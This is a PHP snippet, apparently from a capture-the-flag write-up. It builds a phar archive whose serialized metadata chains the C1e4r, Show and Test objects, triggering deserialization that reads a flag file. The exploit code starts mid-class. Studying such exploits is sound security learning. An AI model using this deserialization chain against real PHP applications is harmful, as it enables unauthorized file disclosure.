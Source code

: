 ```php
    public $file;
    public $params;
 
}
$a= new C1e4r();
$b= new Show();
$c= new Test();
$c->params['source'] = "/var/www/html/f1ag.php";
$a->str = $b;
$b->str['str'] = $c;
$phar = new Phar("exp.phar"); //生成phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($a); //触发头是C1e4r类
$phar->addFromString("exp.txt", "test"); //生成签名
$phar->stopBuffering();
?>

